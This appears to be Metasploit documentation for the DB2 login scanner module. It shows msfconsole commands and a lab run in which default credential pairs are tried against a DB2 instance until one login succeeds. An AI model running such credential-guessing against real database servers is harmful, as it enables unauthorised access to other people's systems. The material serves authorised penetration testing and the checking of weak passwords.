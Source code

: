 ## Vulnerable Application

This module attempts to authenticate against a DB2 instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and USERPASS_FILE options.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/db2/db2_auth) and https://nvd.nist.gov/vuln/detail/CVE-1999-0502

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/db2/db2_auth`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

##  A run on Kali Linux 2019.3 and DB2 11.5.0.0a

    ```
    msf > use auxiliary/scanner/db2/db2_auth
    msf auxiliary/scanner/db2/db2_auth) > show options
    msf auxiliary/scanner/db2/db2_auth) > set USERNAME db2inst1
    msf auxiliary/scanner/db2/db2_auth) > set PASSWORD db2pass
    msf auxiliary(scanner/db2/db2_auth) > set DATABASE testdb
    msf auxiliary/scanner/db2/db2_auth) > set RHOST 172.17.0.2
    msf auxiliary/scanner/db2/db2_auth) > run
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2inst1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:dasusr1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2fenc1@testdb (Incorrect: )
      [*] 172.17.0.2:50000      - Login Successful: db2inst1:db2pass
      [*] 172.17.0.2:50000      - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed
    ```

